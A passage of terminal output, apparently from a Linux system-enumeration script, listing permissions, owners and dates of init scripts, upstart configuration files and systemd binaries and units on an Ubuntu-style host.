-rwxr-xr-x   1 root root  2014 Dec 28  2014 anacron
-rwxr-xr-x   1 root root  6112 Feb 16  2016 apparmor
-rwxr-xr-x   1 root root  2799 Mar 31  2016 apport
-rwxr-xr-x   1 root root  2401 Nov  4  2015 avahi-daemon
-rwxr-xr-x   1 root root  2968 Mar  1  2016 bluetooth
-rwxr-xr-x   1 root root  1275 Jan 19  2016 bootmisc.sh
-rwxr-xr-x   1 root root  2125 Apr 27  2016 brltty
-rwxr-xr-x   1 root root  3807 Jan 19  2016 checkfs.sh
-rwxr-xr-x   1 root root  1098 Jan 19  2016 checkroot-bootclean.sh
-rwxr-xr-x   1 root root  9353 Jan 19  2016 checkroot.sh
-rwxr-xr-x   1 root root  1343 Apr  4  2016 console-setup
-rwxr-xr-x   1 root root  3049 Apr  5  2016 cron
-rwxr-xr-x   1 root root  2816 Feb 13  2016 cups
-rwxr-xr-x   1 root root  1961 Feb 13  2016 cups-browsed
-rwxr-xr-x   1 root root  2813 Dec  1  2015 dbus
-rw-r--r--   1 root root  1075 Mar  4 15:17 .depend.boot
-rw-r--r--   1 root root  1336 Mar  4 15:17 .depend.start
-rw-r--r--   1 root root  1174 Mar  4 15:17 .depend.stop
-rwxr-xr-x   1 root root  1172 Oct 23  2015 dns-clean
-rwxr-xr-x   1 root root  1105 Mar 15  2016 grub-common
-rwxr-xr-x   1 root root  1336 Jan 19  2016 halt
-rwxr-xr-x   1 root root  1423 Jan 19  2016 hostname.sh
-rwxr-xr-x   1 root root  3809 Mar 12  2016 hwclock.sh
-rwxr-xr-x   1 root root  2372 Apr 11  2016 irqbalance
-rwxr-xr-x   1 root root  3102 Mar 10  2016 kerneloops
-rwxr-xr-x   1 root root  1804 Apr  4  2016 keyboard-setup
-rwxr-xr-x   1 root root  1300 Jan 19  2016 killprocs
-rwxr-xr-x   1 root root  2087 Dec 20  2015 kmod
-rwxr-xr-x   1 root root  3431 Apr  4  2016 lightdm
-rwxr-xr-x   1 root root   703 Jan 19  2016 mountall-bootclean.sh
-rwxr-xr-x   1 root root  2301 Jan 19  2016 mountall.sh
-rwxr-xr-x   1 root root  1461 Jan 19  2016 mountdevsubfs.sh
-rwxr-xr-x   1 root root  1564 Jan 19  2016 mountkernfs.sh
-rwxr-xr-x   1 root root   711 Jan 19  2016 mountnfs-bootclean.sh
-rwxr-xr-x   1 root root  2456 Jan 19  2016 mountnfs.sh
-rwxr-xr-x   1 root root  4771 Jul 19  2015 networking
-rwxr-xr-x   1 root root  1757 May 12  2016 network-manager
-rwxr-xr-x   1 root root  1581 Oct 15  2015 ondemand
-rwxr-xr-x   1 root root  1578 Feb 15  2018 open-vm-tools
-rwxr-xr-x   1 root root  1366 Nov 15  2015 plymouth
-rwxr-xr-x   1 root root   752 Nov 15  2015 plymouth-log
-rwxr-xr-x   1 root root   612 Jan 27  2016 pppd-dns
-rwxr-xr-x   1 root root  1192 Sep  6  2015 procps
-rwxr-xr-x   1 root root  6366 Jan 19  2016 rc
-rwxr-xr-x   1 root root   820 Jan 19  2016 rc.local
-rwxr-xr-x   1 root root   117 Jan 19  2016 rcS
-rw-r--r--   1 root root  2427 Jan 19  2016 README
-rwxr-xr-x   1 root root   661 Jan 19  2016 reboot
-rwxr-xr-x   1 root root  4149 Nov 23  2015 resolvconf
-rwxr-xr-x   1 root root  4355 Jul 10  2014 rsync
-rwxr-xr-x   1 root root  2796 Feb  3  2016 rsyslog
-rwxr-xr-x   1 root root  2522 Jul 10  2015 saned
-rwxr-xr-x   1 root root  3927 Jan 19  2016 sendsigs
-rwxr-xr-x   1 root root   597 Jan 19  2016 single
-rw-r--r--   1 root root  1087 Jan 19  2016 skeleton
-rwxr-xr-x   1 root root  2117 Feb 18  2016 speech-dispatcher
-rwxr-xr-x   1 root root  1154 Jan 29  2016 thermald
-rwxr-xr-x   1 root root  6087 Apr 12  2016 udev
-rwxr-xr-x   1 root root  2049 Aug  7  2014 ufw
-rwxr-xr-x   1 root root  2737 Jan 19  2016 umountfs
-rwxr-xr-x   1 root root  2202 Jan 19  2016 umountnfs.sh
-rwxr-xr-x   1 root root  1879 Jan 19  2016 umountroot
-rwxr-xr-x   1 root root  1379 Feb 18  2016 unattended-upgrades
-rwxr-xr-x   1 root root  3111 Jan 19  2016 urandom
-rwxr-xr-x   1 root root  1306 May 26  2016 uuidd
-rwxr-xr-x   1 root root   485 Jun 15  2016 whoopsie
-rwxr-xr-x   1 root root  2757 Nov 10  2015 x11-common


[-] /etc/init/ config file permissions:
total 364
drwxr-xr-x   2 root root  4096 Sep 19  2017 .
drwxr-xr-x 133 root root 12288 Mar  4 15:17 ..
-rw-r--r--   1 root root   338 Apr  8  2016 acpid.conf
-rw-r--r--   1 root root   309 Apr 14  2016 alsa-utils.conf
-rw-r--r--   1 root root   278 Dec 28  2014 anacron.conf
-rw-r--r--   1 root root  3695 Feb 16  2016 apparmor.conf
-rw-r--r--   1 root root  1626 May 18  2016 apport.conf
-rw-r--r--   1 root root   207 Nov 24  2015 avahi-cups-reload.conf
-rw-r--r--   1 root root   541 Nov 24  2015 avahi-daemon.conf
-rw-r--r--   1 root root   997 Mar  1  2016 bluetooth.conf
-rw-r--r--   1 root root   328 Nov 18  2014 bootmisc.sh.conf
-rw-r--r--   1 root root   232 Nov 18  2014 checkfs.sh.conf
-rw-r--r--   1 root root   253 Nov 18  2014 checkroot-bootclean.sh.conf
-rw-r--r--   1 root root   307 Nov 18  2014 checkroot.sh.conf
-rw-r--r--   1 root root   266 May 19  2016 console.conf
-rw-r--r--   1 root root   250 Apr  4  2016 console-font.conf
-rw-r--r--   1 root root   509 Apr  4  2016 console-setup.conf
-rw-r--r--   1 root root  1122 May 19  2016 container-detect.conf
-rw-r--r--   1 root root   356 May 19  2016 control-alt-delete.conf
-rw-r--r--   1 root root   297 Apr  5  2016 cron.conf
-rw-r--r--   1 root root   525 Apr 20  2016 cups-browsed.conf
-rw-r--r--   1 root root  1815 Mar 25  2016 cups.conf
-rw-r--r--   1 root root   482 Sep  1  2015 dbus.conf
-rw-r--r--   1 root root  1377 May 19  2016 failsafe.conf
-rw-r--r--   1 root root   374 Feb 19  2016 failsafe-x.conf
-rw-r--r--   1 root root   267 May 19  2016 flush-early-job-log.conf
-rw-r--r--   1 root root  1247 Jun  1  2015 friendly-recovery.conf
-rw-r--r--   1 root root   186 Apr 29  2016 gpu-manager.conf
-rw-r--r--   1 root root   284 Jul 23  2013 hostname.conf
-rw-r--r--   1 root root   300 May 21  2014 hostname.sh.conf
-rw-r--r--   1 root root   674 Mar 14  2016 hwclock.conf
-rw-r--r--   1 root root   561 Mar 14  2016 hwclock-save.conf
-rw-r--r--   1 root root   109 Mar 14  2016 hwclock.sh.conf
-rw-r--r--   1 root root   597 Apr 11  2016 irqbalance.conf
-rw-r--r--   1 root root   689 Aug 20  2015 kmod.conf
-rw-r--r--   1 root root  1444 Apr  4  2016 lightdm.conf
-rw-r--r--   1 root root   268 Nov 18  2014 mountall-bootclean.sh.conf
-rw-r--r--   1 root root  1232 Nov 18  2014 mountall.conf
-rw-r--r--   1 root root   349 Nov 18  2014 mountall-net.conf
-rw-r--r--   1 root root   261 Nov 18  2014 mountall-reboot.conf
-rw-r--r--   1 root root   311 Nov 18  2014 mountall.sh.conf
-rw-r--r--   1 root root  1201 Nov 18  2014 mountall-shell.conf
-rw-r--r--   1 root root   327 Nov 18  2014 mountdevsubfs.sh.conf
-rw-r--r--   1 root root   405 Nov 18  2014 mounted-debugfs.conf
-rw-r--r--   1 root root   730 Nov 18  2014 mounted-dev.conf
-rw-r--r--   1 root root   536 Nov 18  2014 mounted-proc.conf
-rw-r--r--   1 root root   618 Nov 18  2014 mounted-run.conf
-rw-r--r--   1 root root  1890 Nov 18  2014 mounted-tmp.conf
-rw-r--r--   1 root root   903 Nov 18  2014 mounted-var.conf
-rw-r--r--   1 root root   323 Nov 18  2014 mountkernfs.sh.conf
-rw-r--r--   1 root root   249 Nov 18  2014 mountnfs-bootclean.sh.conf
-rw-r--r--   1 root root   313 Nov 18  2014 mountnfs.sh.conf
-rw-r--r--   1 root root   238 Nov 18  2014 mtab.sh.conf
-rw-r--r--   1 root root  2493 Jun  2  2015 networking.conf
-rw-r--r--   1 root root   933 Jun  2  2015 network-interface.conf
-rw-r--r--   1 root root   530 Jun  2  2015 network-interface-container.conf
-rw-r--r--   1 root root  1756 Jun  2  2015 network-interface-security.conf
-rw-r--r--   1 root root   568 May 12  2016 network-manager.conf
-rw-r--r--   1 root root   568 Feb  1  2016 passwd.conf
-rw-r--r--   1 root root   119 Jun  5  2014 procps.conf
-rw-r--r--   1 root root   363 Jun  5  2014 procps-instance.conf
-rw-r--r--   1 root root   661 May 19  2016 rc.conf
-rw-r--r--   1 root root   683 May 19  2016 rcS.conf
-rw-r--r--   1 root root  1543 May 19  2016 rc-sysinit.conf
-rw-r--r--   1 root root   457 Jun  3  2015 resolvconf.conf
-rw-r--r--   1 root root   365 Nov  3  2014 rfkill-restore.conf
-rw-r--r--   1 root root   357 Nov  3  2014 rfkill-store.conf
-rw-r--r--   1 root root   426 Dec  2  2015 rsyslog.conf
-rw-r--r--   1 root root   230 Apr  4  2016 setvtrgb.conf
-rw-r--r--   1 root root   277 May 19  2016 shutdown.conf
-rw-r--r--   1 root root   360 Jun  1  2016 thermald.conf
-rw-r--r--   1 root root   348 May 19  2016 tty1.conf
-rw-r--r--   1 root root   333 May 19  2016 tty2.conf
-rw-r--r--   1 root root   333 May 19  2016 tty3.conf
-rw-r--r--   1 root root   333 May 19  2016 tty4.conf
-rw-r--r--   1 root root   232 May 19  2016 tty5.conf
-rw-r--r--   1 root root   232 May 19  2016 tty6.conf
-rw-r--r--   1 root root   337 Apr 12  2016 udev.conf
-rw-r--r--   1 root root   360 Apr 12  2016 udevmonitor.conf
-rw-r--r--   1 root root   352 Apr 12  2016 udevtrigger.conf
-rw-r--r--   1 root root   473 Aug  7  2014 ufw.conf
-rw-r--r--   1 root root   412 May 19  2016 upstart-file-bridge.conf
-rw-r--r--   1 root root   329 May 19  2016 upstart-socket-bridge.conf
-rw-r--r--   1 root root   553 May 19  2016 upstart-udev-bridge.conf
-rw-r--r--   1 root root   889 Feb 24  2015 ureadahead.conf
-rw-r--r--   1 root root   683 Feb 24  2015 ureadahead-other.conf
-rw-r--r--   1 root root   141 Oct  5  2015 usb-modeswitch-upstart.conf
-rw-r--r--   1 root root  1521 May 19  2016 wait-for-state.conf
-rw-r--r--   1 root root   453 Jun 16  2016 whoopsie.conf


[-] /lib/systemd/* config file permissions:
/lib/systemd/:
total 8.2M
drwxr-xr-x 28 root root  20K Mar  4 15:17 system
drwxr-xr-x  2 root root 4.0K Sep 19  2017 system-generators
drwxr-xr-x  2 root root 4.0K Jul 19  2016 system-sleep
drwxr-xr-x  2 root root 4.0K Jul 19  2016 network
drwxr-xr-x  2 root root 4.0K Jul 19  2016 system-preset
-rwxr-xr-x  1 root root 443K Jul 12  2016 systemd-udevd
-rwxr-xr-x  1 root root 1.6M Jul 12  2016 systemd
-rwxr-xr-x  1 root root  91K Jul 12  2016 systemd-rfkill
-rwxr-xr-x  1 root root  91K Jul 12  2016 systemd-socket-proxyd
-rwxr-xr-x  1 root root  55K Jul 12  2016 systemd-activate
-rwxr-xr-x  1 root root 352K Jul 12  2016 systemd-bus-proxyd
-rwxr-xr-x  1 root root  75K Jul 12  2016 systemd-fsckd
-rwxr-xr-x  1 root root  31K Jul 12  2016 systemd-hibernate-resume
-rwxr-xr-x  1 root root 319K Jul 12  2016 systemd-journald
-rwxr-xr-x  1 root root  31K Jul 12  2016 systemd-reply-password
-rwxr-xr-x  1 root root  71K Jul 12  2016 systemd-sleep
-rwxr-xr-x  1 root root 333K Jul 12  2016 systemd-timedated
-rwxr-xr-x  1 root root  91K Jul 12  2016 systemd-backlight
-rwxr-xr-x  1 root root 103K Jul 12  2016 systemd-bootchart
-rwxr-xr-x  1 root root 605K Jul 12  2016 systemd-logind
-rwxr-xr-x  1 root root  51K Jul 12  2016 systemd-modules-load
-rwxr-xr-x  1 root root 780K Jul 12  2016 systemd-networkd
-rwxr-xr-x  1 root root 123K Jul 12  2016 systemd-networkd-wait-online
-rwxr-xr-x  1 root root  51K Jul 12  2016 systemd-remount-fs
-rwxr-xr-x  1 root root  51K Jul 12  2016 systemd-sysctl
-rwxr-xr-x  1 root root 139K Jul 12  2016 systemd-timesyncd
-rwxr-xr-x  1 root root  35K Jul 12  2016 systemd-user-sessions
-rwxr-xr-x  1 root root  15K Jul 12  2016 systemd-ac-power
-rwxr-xr-x  1 root root 268K Jul 12  2016 systemd-cgroups-agent
-rwxr-xr-x  1 root root 301K Jul 12  2016 systemd-fsck
-rwxr-xr-x  1 root root 276K Jul 12  2016 systemd-initctl
-rwxr-xr-x  1 root root 340K Jul 12  2016 systemd-localed
-rwxr-xr-x  1 root root 657K Jul 12  2016 systemd-resolved
-rwxr-xr-x  1 root root  47K Jul 12  2016 systemd-binfmt
-rwxr-xr-x  1 root root  91K Jul 12  2016 systemd-cryptsetup
-rwxr-xr-x  1 root root 332K Jul 12  2016 systemd-hostnamed
-rwxr-xr-x  1 root root  35K Jul 12  2016 systemd-quotacheck
-rwxr-xr-x  1 root root  35K Jul 12  2016 systemd-random-seed
-rwxr-xr-x  1 root root 143K Jul 12  2016 systemd-shutdown
-rwxr-xr-x  1 root root 276K Jul 12  2016 systemd-update-utmp
-rwxr-xr-x  1 root root 1.3K Jul 12  2016 systemd-sysv-install
drwxr-xr-x  2 root root 4.0K Apr 12  2016 system-shutdown

/lib/systemd/system:
total 1.1M
-rw-r--r-- 1 root root  251 Feb 15  2018 open-vm-tools.service
lrwxrwxrwx 1 root root   21 Sep 19  2017 udev.service -> systemd-udevd.service
lrwxrwxrwx 1 root root    9 Sep 19  2017 umountfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 umountnfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 umountroot.service -> /dev/null
lrwxrwxrwx 1 root root   27 Sep 19  2017 urandom.service -> systemd-random-seed.service
lrwxrwxrwx 1 root root    9 Sep 19  2017 x11-common.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 stop-bootlogd.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 stop-bootlogd-single.service -> /dev/null
lrwxrwxrwx 1 root root   15 Sep 19  2017 runlevel0.target -> poweroff.target
lrwxrwxrwx 1 root root   13 Sep 19  2017 runlevel1.target -> rescue.target
lrwxrwxrwx 1 root root   17 Sep 19  2017 runlevel2.target -> multi-user.target
lrwxrwxrwx 1 root root   17 Sep 19  2017 runlevel3.target -> multi-user.target
lrwxrwxrwx 1 root root   17 Sep 19  2017 runlevel4.target -> multi-user.target
lrwxrwxrwx 1 root root   16 Sep 19  2017 runlevel5.target -> graphical.target
lrwxrwxrwx 1 root root   13 Sep 19  2017 runlevel6.target -> reboot.target
lrwxrwxrwx 1 root root    9 Sep 19  2017 saned.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 sendsigs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 single.service -> /dev/null
lrwxrwxrwx 1 root root   27 Sep 19  2017 plymouth-log.service -> plymouth-read-write.service
lrwxrwxrwx 1 root root   21 Sep 19  2017 plymouth.service -> plymouth-quit.service
lrwxrwxrwx 1 root root   22 Sep 19  2017 procps.service -> systemd-sysctl.service
lrwxrwxrwx 1 root root   16 Sep 19  2017 rc.local.service -> rc-local.service
lrwxrwxrwx 1 root root    9 Sep 19  2017 rc.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 rcS.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 reboot.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 rmnologin.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 killprocs.service -> /dev/null
lrwxrwxrwx 1 root root   28 Sep 19  2017 kmod.service -> systemd-modules-load.service
lrwxrwxrwx 1 root root   28 Sep 19  2017 module-init-tools.service -> systemd-modules-load.service
lrwxrwxrwx 1 root root    9 Sep 19  2017 motd.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 mountall-bootclean.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 mountall.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 mountdevsubfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 mountkernfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 mountnfs-bootclean.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 mountnfs.service -> /dev/null
lrwxrwxrwx 1 root root   22 Sep 19  2017 network-manager.service -> NetworkManager.service
lrwxrwxrwx 1 root root    9 Sep 19  2017 fuse.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 halt.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 hostname.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 hwclock.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 checkfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 checkroot-bootclean.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 checkroot.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 cryptdisks-early.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 cryptdisks.service -> /dev/null
lrwxrwxrwx 1 root root   13 Sep 19  2017 ctrl-alt-del.target -> reboot.target
lrwxrwxrwx 1 root root   25 Sep 19  2017 dbus-org.freedesktop.hostname1.service -> systemd-hostnamed.service
lrwxrwxrwx 1 root root   23 Sep 19  2017 dbus-org.freedesktop.locale1.service -> systemd-localed.service
lrwxrwxrwx 1 root root   22 Sep 19  2017 dbus-org.freedesktop.login1.service -> systemd-logind.service
lrwxrwxrwx 1 root root   24 Sep 19  2017 dbus-org.freedesktop.network1.service -> systemd-networkd.service
lrwxrwxrwx 1 root root   24 Sep 19  2017 dbus-org.freedesktop.resolve1.service -> systemd-resolved.service
lrwxrwxrwx 1 root root   25 Sep 19  2017 dbus-org.freedesktop.timedate1.service -> systemd-timedated.service
lrwxrwxrwx 1 root root   16 Sep 19  2017 default.target -> graphical.target
lrwxrwxrwx 1 root root    9 Sep 19  2017 alsa-utils.service -> /dev/null
lrwxrwxrwx 1 root root   14 Sep 19  2017 autovt@.service -> getty@.service
lrwxrwxrwx 1 root root    9 Sep 19  2017 bootlogd.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 bootlogs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Sep 19  2017 bootmisc.service -> /dev/null
drwxr-xr-x 2 root root 4.0K Jul 19  2016 display-manager.service.d
drwxr-xr-x 2 root root 4.0K Jul 19  2016 system-update.target.wants
drwxr-xr-x 2 root root 4.0K Jul 19  2016 basic.target.wants
drwxr-xr-x 2 root root 4.0K Jul 19  2016 halt.target.wants
drwxr-xr-x 2 root root 4.0K Jul 19  2016 initrd-switch-root.target.wants
drwxr-xr-x 2 root root 4.0K Jul 19  2016 kexec.target.wants
drwxr-xr-x 2 root root 4.0K Jul 19  2016 multi-user.target.wants
drwxr-xr-x 2 root root 4.0K Jul 19  2016 poweroff.target.wants
drwxr-xr-x 2 root root 4.0K Jul 19  2016 reboot.target.wants
drwxr-xr-x 2 root root 4.0K Jul 19  2016 sysinit.target.wants
drwxr-xr-x 2 root root 4.0K Jul 19  2016 sockets.target.wants
drwxr-xr-x 2 root root 4.0K Jul 19  2016 busnames.target.wants
drwxr-xr-x 2 root root 4.0K Jul 19  2016 getty.target.wants
drwxr-xr-x 2 root root 4.0K Jul 19  2016 graphical.target.wants
drwxr-xr-x 2 root root 4.0K Jul 19  2016 local-fs.target.wants
drwxr-xr-x 2 root root 4.0K Jul 19  2016 rc-local.service.d
drwxr-xr-x 2 root root 4.0K Jul 19  2016 rescue.target.wants
drwxr-xr-x 2 root root 4.0K Jul 19  2016 resolvconf.service.wants
drwxr-xr-x 2 root root 4.0K Jul 19  2016 sigpwr.target.wants
drwxr-xr-x 2 root root 4.0K Jul 19  2016 systemd-timesyncd.service.d
drwxr-xr-x 2 root root 4.0K Jul 19  2016 timers.target.wants
-rw-r--r-- 1 root root  770 Jul 12  2016 console-getty.service
-rw-r--r-- 1 root root  742 Jul 12  2016 console-shell.service
-rw-r--r-- 1 root root  791 Jul 12  2016 container-getty@.service
-rw-r--r-- 1 root root 1010 Jul 12  2016 debug-shell.service
-rw-r--r-- 1 root root 1009 Jul 12  2016 emergency.service
-rw-r--r-- 1 root root 1.5K Jul 12  2016 getty@.service
-rw-r--r-- 1 root root  630 Jul 12  2016 initrd-cleanup.service
-rw-r--r-- 1 root root  790 Jul 12  2016 initrd-parse-etc.service
-rw-r--r-- 1 root root  640 Jul 12  2016 initrd-switch-root.service
-rw-r--r-- 1 root root  664 Jul 12  2016 initrd-udevadm-cleanup-db.service
-rw-r--r-- 1 root root  677 Jul 12  2016 kmod-static-nodes.service
-rw-r--r-- 1 root root  473 Jul 12  2016 mail-transport-agent.target
-rw-r--r-- 1 root root  568 Jul 12  2016 quotaon.service
-rw-r--r-- 1 root root  612 Jul 12  2016 rc-local.service
-rw-r--r-- 1 root root  978 Jul 12  2016 rescue.service
-rw-r--r-- 1 root root 1.1K Jul 12  2016 serial-getty@.service
-rw-r--r-- 1 root root  653 Jul 12  2016 systemd-ask-password-console.service
-rw-r--r-- 1 root root  681 Jul 12  2016 systemd-ask-password-wall.service
-rw-r--r-- 1 root root  724 Jul 12  2016 systemd-backlight@.service
-rw-r--r-- 1 root root  959 Jul 12  2016 systemd-binfmt.service
-rw-r--r-- 1 root root  650 Jul 12  2016 systemd-bootchart.service
-rw-r--r-- 1 root root 1.0K Jul 12  2016 systemd-bus-proxyd.service
-rw-r--r-- 1 root root  497 Jul 12  2016 systemd-exit.service
-rw-r--r-- 1 root root  551 Jul 12  2016 systemd-fsckd.service
-rw-r--r-- 1 root root  674 Jul 12  2016 systemd-fsck-root.service
-rw-r--r-- 1 root root  648 Jul 12  2016 systemd-fsck@.service
-rw-r--r-- 1 root root  544 Jul 12  2016 systemd-halt.service
-rw-r--r-- 1 root root  631 Jul 12  2016 systemd-hibernate-resume@.service
-rw-r--r-- 1 root root  501 Jul 12  2016 systemd-hibernate.service
-rw-r--r-- 1 root root  710 Jul 12  2016 systemd-hostnamed.service
-rw-r--r-- 1 root root  778 Jul 12  2016 systemd-hwdb-update.service
-rw-r--r-- 1 root root  519 Jul 12  2016 systemd-hybrid-sleep.service
-rw-r--r-- 1 root root  480 Jul 12  2016 systemd-initctl.service
-rw-r--r-- 1 root root 1.3K Jul 12  2016 systemd-journald.service
-rw-r--r-- 1 root root  731 Jul 12  2016 systemd-journal-flush.service
-rw-r--r-- 1 root root  557 Jul 12  2016 systemd-kexec.service
-rw-r--r-- 1 root root  691 Jul 12  2016 systemd-localed.service
-rw-r--r-- 1 root root 1.2K Jul 12  2016 systemd-logind.service
-rw-r--r-- 1 root root  693 Jul 12  2016 systemd-machine-id-commit.service
-rw-r--r-- 1 root root  967 Jul 12  2016 systemd-modules-load.service
-rw-r--r-- 1 root root 1.4K Jul 12  2016 systemd-networkd.service
-rw-r--r-- 1 root root  685 Jul 12  2016 systemd-networkd-wait-online.service
-rw-r--r-- 1 root root  553 Jul 12  2016 systemd-poweroff.service
-rw-r--r-- 1 root root  614 Jul 12  2016 systemd-quotacheck.service
-rw-r--r-- 1 root root  717 Jul 12  2016 systemd-random-seed.service
-rw-r--r-- 1 root root  548 Jul 12  2016 systemd-reboot.service
-rw-r--r-- 1 root root  757 Jul 12  2016 systemd-remount-fs.service
-rw-r--r-- 1 root root  907 Jul 12  2016 systemd-resolved.service
-rw-r--r-- 1 root root  696 Jul 12  2016 systemd-rfkill.service
-rw-r--r-- 1 root root  497 Jul 12  2016 systemd-suspend.service
-rw-r--r-- 1 root root  649 Jul 12  2016 systemd-sysctl.service
-rw-r--r-- 1 root root  655 Jul 12  2016 systemd-timedated.service
-rw-r--r-- 1 root root 1.1K Jul 12  2016 systemd-timesyncd.service
-rw-r--r-- 1 root root  598 Jul 12  2016 systemd-tmpfiles-clean.service
-rw-r--r-- 1 root root  703 Jul 12  2016 systemd-tmpfiles-setup-dev.service
-rw-r--r-- 1 root root  683 Jul 12  2016 systemd-tmpfiles-setup.service
-rw-r--r-- 1 root root  825 Jul 12  2016 systemd-udevd.service
-rw-r--r-- 1 root root  823 Jul 12  2016 systemd-udev-settle.service
-rw-r--r-- 1 root root  743 Jul 12  2016 systemd-udev-trigger.service
-rw-r--r-- 1 root root  757 Jul 12  2016 systemd-update-utmp-runlevel.service
-rw-r--r-- 1 root root  754 Jul 12  2016 systemd-update-utmp.service
-rw-r--r-- 1 root root  573 Jul 12  2016 systemd-user-sessions.service
-rw-r--r-- 1 root root  528 Jul 12  2016 user@.service
-rw-r--r-- 1 root root  879 Jul 12  2016 basic.target
-rw-r--r-- 1 root root  379 Jul 12  2016 bluetooth.target
-rw-r--r-- 1 root root  358 Jul 12  2016 busnames.target
-rw-r--r-- 1 root root  394 Jul 12  2016 cryptsetup-pre.target
-rw-r--r-- 1 root root  366 Jul 12  2016 cryptsetup.target
-rw-r--r-- 1 root root  670 Jul 12  2016 dev-hugepages.mount
-rw-r--r-- 1 root root  624 Jul 12  2016 dev-mqueue.mount
-rw-r--r-- 1 root root  431 Jul 12  2016 emergency.target
-rw-r--r-- 1 root root  501 Jul 12  2016 exit.target
-rw-r--r-- 1 root root  440 Jul 12  2016 final.target
-rw-r--r-- 1 root root  460 Jul 12  2016 getty.target
-rw-r--r-- 1 root root  558 Jul 12  2016 graphical.target
-rw-r--r-- 1 root root  487 Jul 12  2016 halt.target
-rw-r--r-- 1 root root  447 Jul 12  2016 hibernate.target
-rw-r--r-- 1 root root  468 Jul 12  2016 hybrid-sleep.target
-rw-r--r-- 1 root root  553 Jul 12  2016 initrd-fs.target
-rw-r--r-- 1 root root  526 Jul 12  2016 initrd-root-fs.target
-rw-r--r-- 1 root root  691 Jul 12  2016 initrd-switch-root.target
-rw-r--r-- 1 root root  671 Jul 12  2016 initrd.target
-rw-r--r-- 1 root root  501 Jul 12  2016 kexec.target
-rw-r--r-- 1 root root  395 Jul 12  2016 local-fs-pre.target
-rw-r--r-- 1 root root  507 Jul 12  2016 local-fs.target
-rw-r--r-- 1 root root  405 Jul 12  2016 machine.slice
-rw-r--r-- 1 root root  492 Jul 12  2016 multi-user.target
-rw-r--r-- 1 root root  464 Jul 12  2016 network-online.target
-rw-r--r-- 1 root root  461 Jul 12  2016 network-pre.target
-rw-r--r-- 1 root root  480 Jul 12  2016 network.target
-rw-r--r-- 1 root root  514 Jul 12  2016 nss-lookup.target
-rw-r--r-- 1 root root  473 Jul 12  2016 nss-user-lookup.target
-rw-r--r-- 1 root root  554 Jul 12  2016 org.freedesktop.hostname1.busname
-rw-r--r-- 1 root root  550 Jul 12  2016 org.freedesktop.locale1.busname
-rw-r--r-- 1 root root  598 Jul 12  2016 org.freedesktop.login1.busname
-rw-r--r-- 1 root root  675 Jul 12  2016 org.freedesktop.network1.busname
-rw-r--r-- 1 root root  763 Jul 12  2016 org.freedesktop.resolve1.busname
-rw-r--r-- 1 root root  480 Jul 12  2016 org.freedesktop.systemd1.busname
-rw-r--r-- 1 root root  538 Jul 12  2016 org.freedesktop.timedate1.busname
-rw-r--r-- 1 root root  354 Jul 12  2016 paths.target
-rw-r--r-- 1 root root  552 Jul 12  2016 poweroff.target
-rw-r--r-- 1 root root  377 Jul 12  2016 printer.target
-rw-r--r-- 1 root root  693 Jul 12  2016 proc-sys-fs-binfmt_misc.automount
-rw-r--r-- 1 root root  603 Jul 12  2016 proc-sys-fs-binfmt_misc.mount
-rw-r--r-- 1 root root  543 Jul 12  2016 reboot.target
-rw-r--r-- 1 root root  396 Jul 12  2016 remote-fs-pre.target
-rw-r--r-- 1 root root  482 Jul 12  2016 remote-fs.target
-rw-r--r-- 1 root root  486 Jul 12  2016 rescue.target
-rw-r--r-- 1 root root  500 Jul 12  2016 rpcbind.target
-rw-r--r-- 1 root root  402 Jul 12  2016 shutdown.target
-rw-r--r-- 1 root root  362 Jul 12  2016 sigpwr.target
-rw-r--r-- 1 root root  420 Jul 12  2016 sleep.target
-rw-r--r-- 1 root root  403 Jul 12  2016 -.slice
-rw-r--r-- 1 root root  409 Jul 12  2016 slices.target
-rw-r--r-- 1 root root  380 Jul 12  2016 smartcard.target
-rw-r--r-- 1 root root  356 Jul 12  2016 sockets.target
-rw-r--r-- 1 root root  380 Jul 12  2016 sound.target
-rw-r--r-- 1 root root  441 Jul 12  2016 suspend.target
-rw-r--r-- 1 root root  353 Jul 12  2016 swap.target
-rw-r--r-- 1 root root  715 Jul 12  2016 sys-fs-fuse-connections.mount
-rw-r--r-- 1 root root  518 Jul 12  2016 sysinit.target
-rw-r--r-- 1 root root  719 Jul 12  2016 sys-kernel-config.mount
-rw-r--r-- 1 root root  662 Jul 12  2016 sys-kernel-debug.mount
-rw-r--r-- 1 root root 1.3K Jul 12  2016 syslog.socket
-rw-r--r-- 1 root root  646 Jul 12  2016 systemd-ask-password-console.path
-rw-r--r-- 1 root root  574 Jul 12  2016 systemd-ask-password-wall.path
-rw-r--r-- 1 root root  409 Jul 12  2016 systemd-bus-proxyd.socket
-rw-r--r-- 1 root root  540 Jul 12  2016 systemd-fsckd.socket
-rw-r--r-- 1 root root  524 Jul 12  2016 systemd-initctl.socket
-rw-r--r-- 1 root root  607 Jul 12  2016 systemd-journald-audit.socket
